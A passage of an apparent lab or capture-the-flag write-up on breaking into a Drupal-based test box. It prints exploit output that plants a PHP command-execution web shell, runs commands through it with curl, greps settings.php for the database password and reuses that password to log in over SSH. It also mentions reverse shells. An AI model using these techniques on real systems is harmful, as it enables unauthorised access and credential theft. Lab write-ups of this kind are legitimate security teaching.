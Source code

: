 ```
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"hGG1vki-ijk-YlOz1WyKRSQfA5ujfUBAIdYF8QIxBHM"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"hGG1vki-ijk-YlOz1WyKRSQfA5ujfUBAIdYF8QIxBHM"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.1.85:1898/s.php' -d 'c=whoami'
lampiao>>
```

Oh yeah! We got a shell. Beeing a RCE via web, the user we are is `www-data` which is an unprivileged user.
Before moving on, you can notice that you are not on a fully fledged tty. Now you have two alternatives.

- Mainly you can use `nc` and/or `python` to start a remote shell back to you, or
- you can find more information and try to get in from the main door.

If you are interested at the first option, you can have a look at this [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
I went for the second one, and try to use a little social engineering combined with -always useful- luck.

Since I am curious (and I have some experience on how people tend to choose and reuse the same password all round) I wanted to see how Drupal connects to the MySql database. Locate the settings and grep for the password.

```
lampiao>> locate settings.php
/var/www/html/sites/default/default.settings.php
/var/www/html/sites/default/settings.php
/var/www/html/themes/garland/theme-settings.php
lampiao>> cat /var/www/html/sites/default/settings.php|grep password
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'password' => 'password',
 *   'password' => 'password',
 *     'password' => 'password',
 *     'password' => 'password',
      'password' => 'Virgulino',
 * by using the username and password variables. The proxy_user_agent variable
# $conf['proxy_password'] = '';
lampiao>>
```

Let's see if the password "Virgulino" is the same for ssh tiago user... ;)

```
user@kali:~$ ssh tiago@192.168.1.85
tiago@192.168.1.85's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Nov 20 14:34:43 BRST 2018

  System load:  0.0               Processes:           114
  Usage of /:   8.2% of 19.07GB   Users logged in:     0
  Memory usage: 23%               IP address for eth0: 192.168.1.85
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Nov 20 14:34:43 2018 from 192.168.1.1

```